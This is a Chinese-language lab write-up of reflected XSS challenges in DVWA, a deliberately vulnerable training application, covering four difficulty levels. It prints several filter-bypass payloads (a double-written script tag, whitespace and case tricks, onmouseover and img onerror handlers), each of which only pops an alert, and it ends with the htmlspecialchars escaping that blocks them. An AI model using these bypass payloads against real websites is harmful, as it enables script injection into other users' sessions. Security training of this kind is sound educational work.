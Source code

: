 ```yaml
---
title: DVWA-xss‘反射型’手记
date: 2018-10-10 15:22:58
tags: [DVWA,XSS]
categories: XSS
---
```


# DVWA-XSS‘反射型’手记

---

## LOW

### Source:

![001](/img/xss/dvwa/Reflected/low_001.png)

### Analysis:	

	没有进行任何过滤,直接用弹窗测试漏洞存在。

### Process:

![002](/img/xss/dvwa/Reflected/low_002.png)

![003](/img/xss/dvwa/Reflected/low_003.png)

## MEDIUM

### Source:

![004](/img/xss/dvwa/Reflected/medium_001.png)

### Analysis:	

	对script替换成空。可以采用多种方法绕过。
	1. 双写
		<sc<script>ript>alert('双写')</script>
	2. 添加空格或换行
		添加空格
		<script >alert('添加空格')</script>
		
		添加换行
		<script 
		>alert('添加换行')</script>
	 3. 替换大小写
	 	<Script>alert('修改S')</script>

### Process:

1. 双写

![005](/img/xss/dvwa/Reflected/medium_t001.png)

2. 添加空格

![006](/img/xss/dvwa/Reflected/medium_t002.png)

​       		添加换行

![007](/img/xss/dvwa/Reflected/medium_t002_1.png)

3. 替换大小写

   ![008](/img/xss/dvwa/Reflected/medium_t003.png)



## HIGH

### Source:

![009](/img/xss/dvwa/Reflected/high_001.png)

### Analysis:	

```
过滤了<script,检查了大小写。就算是<s1c2r3i4p5t也全替为空。
对于这种情况不使用script就行了。
1.事件触发执行javascript
	<a href=# onmouseover=alert('事件')>ClickHere</a>
2.Src属性
	<img src=x onerror=alert('Src属性');>
```

### Process:

1.事件触发执行javascript

![010](/img/xss/dvwa/Reflected/high_002.png)

2.Src属性

![011](/img/xss/dvwa/Reflected/high_003.png)

## IMPOSSIBLE

### Source:

![012](/img/xss/dvwa/Reflected/impossible_001.png)

### Analysis:	


    htmlspecialchars 将特殊字符转换为 HTML 实体
    & (& 符号)	&amp;
    " (双引号)	&quot;，除非设置了 ENT_NOQUOTES
    ' (单引号)	&#039; 
    < (小于)	&lt;
    > (大于)	&gt;
    
    可以看到，Impossible等级的代码使用htmlspecialchars函数把预定义的字符转换为HTML实体，
    防止浏览器将其作为HTML元素。从而防治了反射型XSS利用和危害。






